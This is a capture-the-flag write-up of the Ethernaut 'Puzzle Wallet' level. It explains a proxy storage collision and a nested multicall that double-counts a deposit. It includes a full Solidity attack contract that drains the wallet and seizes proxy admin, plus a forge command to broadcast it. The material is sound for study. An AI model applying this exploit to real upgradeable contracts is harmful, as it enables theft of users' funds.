

<div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 24 - Puzzle Wallet</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 24 - Puzzle Wallet](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-24-puzzle-wallet)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
  - [Become the owner of the PuzzleWallet contract](#become-the-owner-of-the-puzzlewallet-contract)
  - [Drain the contract](#drain-the-contract)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Goals



## The hack

The PuzzleWallet challenge is a very interesting one that requires us to be familiar with the concepts of upgradeable contracts and proxy contracts. To keep it simple, despite being immutable by nature, there is a way to upgrade a contract by using a proxy contract. The proxy contract stores the address of the implementation contract, and if we want to change the logic, we can simply update the address in the proxy to point to a different implementation contract.

That's why we also need to remember what we have seen in previous challenges about storage collision when using the `delegatecall` pattern. In order to avoid storage collision, the storage layout of both contracts must be identical.

### Become the owner of the PuzzleWallet contract

Here we can immediately see that the storage overlaps each other:

```javascript
contract PuzzleProxy {
    address public pendingAdmin; // slot 0
    address public admin; // slot 1
}

contract PuzzleWallet {
    address public owner; // slot 0
    uint256 public maxBalance; // slot 1
}
```

So our goal here is to find a way to update the `PuzzleWallet::maxBalance` with our wallet address, which will override the `PuzzleProxy::admin` address of the proxy contract.

Next, let's check the rest of the contracts. we can see an `onlyWhitelisted` modifier to the `setMaxBalance()` function:

```javascript
modifier onlyWhitelisted {
    require(whitelisted[msg.sender], "Not whitelisted");
    _;
}
```

The `addToWhitelist()` function allows us to add an address to the whitelist, but we need to be the owner of the `PuzzleWallet` contract to be able to call it.

```javascript
function addToWhitelist(address addr) external {
    require(msg.sender == owner, "Not the owner");
    whitelisted[addr] = true;
}
```

Time to remember the overlap in the storage. We could use the `proposeNewAdmin()` function to update the `pendingAdmin` address with our wallet address. Thanks to the storage collision, that would make us `owner` of the `PuzzleWallet` contract and we would be able to whitelist ourselves. Nice. So we found a way to call the `setMaxBalance()` function.

```javascript
function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
    require(address(this).balance == 0, "Contract balance is not 0");
    maxBalance = _maxBalance;
}
```

### Drain the contract

While we can call the `setMaxBalance()` function, we are still stuck because of the `require` statement, as the contract's balance is not empty. So we have to drain the contract somehow.

- The `deposit()` function allows us to deposit an amount to our balance.
- The `execute()` function allows us to withdraw an amount from our balance, but it also make sure that we have enough funds to withdraw:

```javascript
require(balances[msg.sender] >= value, "Insufficient balance");
```

So how to make the contract believe our deposit was bigger than what we sent? Time to take a better look at the nasty `multicall()` function...

```javascript
function multicall(bytes[] calldata data) external payable onlyWhitelisted {
    bool depositCalled = false;
    for (uint256 i = 0; i < data.length; i++) {
        bytes memory _data = data[i];
        bytes4 selector;
        assembly {
            selector := mload(add(_data, 32))
        }
        if (selector == this.deposit.selector) {
            require(!depositCalled, "Deposit can only be called once");
            // Protect against reusing msg.value
            depositCalled = true;
        }
        (bool success, ) = address(this).delegatecall(data[i]);
        require(success, "Error while delegating call");
    }
}
```

This function is `payable` and allows us to call any function we want, which is good. So we could multicall the `deposit()` function twice, re-using `msg.value` for the second call, thanks to how `delegatecall` works.
Unfortunately, the `depositCalled` boolean prevents exactly this. The `deposit()` function can only be called once. But what if we nest the second `deposit()` call within another `multicall()`?

To try to illustrate the idea, that would give something like this:

> - multicall(1):
>   > - deposit(0.001 ether)
>   > - multicall(2):
>   >   > - deposit(0.001 ether)

This would effectively bypass the following check `selector == this.deposit.selector`, and our balance would be `0.002 ether` while having only sent `0.001 ether`.

The only thing left is to call the `execute()` function to withdraw our balance and drain the contract at the same time. And we will finally be able to call the `setMaxBalance()` function and override the `PuzzleProxy::admin` address with our wallet address.

## Solution

Let's implement the attack contract:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;
pragma experimental ABIEncoderV2;

interface IPuzzleWallet {
    function admin() external view returns (address);
    function proposeNewAdmin(address _newAdmin) external;
    function addToWhitelist(address addr) external;
    function multicall(bytes[] calldata data) external payable;
    function execute(
        address to,
        uint256 value,
        bytes calldata data
    ) external payable;
    function setMaxBalance(uint256 _maxBalance) external;
}

contract Puzzled {
    IPuzzleWallet private immutable puzzleWallet;

    constructor(address _puzzleWallet) payable {
        puzzleWallet = IPuzzleWallet(_puzzleWallet);
    }

    function forgetToDeposit() public payable {
        (bool success, ) = address(this).call{value: 0.001 ether}("");
        require(success, "Eth transfer failed");
    }

    function attack() public {
        puzzleWallet.proposeNewAdmin(address(this));
        puzzleWallet.addToWhitelist(address(this));

        bytes[] memory deposit_data = new bytes[](1);
        deposit_data[0] = abi.encodeWithSignature("deposit()");

        bytes[] memory data = new bytes[](2);
        data[0] = deposit_data[0];
        data[1] = abi.encodeWithSignature("multicall(bytes[])", deposit_data);
        puzzleWallet.multicall{value: 0.001 ether}(data);

        puzzleWallet.execute(msg.sender, 0.002 ether, "");
        puzzleWallet.setMaxBalance(uint256(uint160(msg.sender)));

        require(puzzleWallet.admin() == msg.sender, "Hack failed!");
        selfdestruct(payable(msg.sender));
    }
}
```

You can run the script with the following command:

```bash
forge script script/24_PuzzleWallet.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
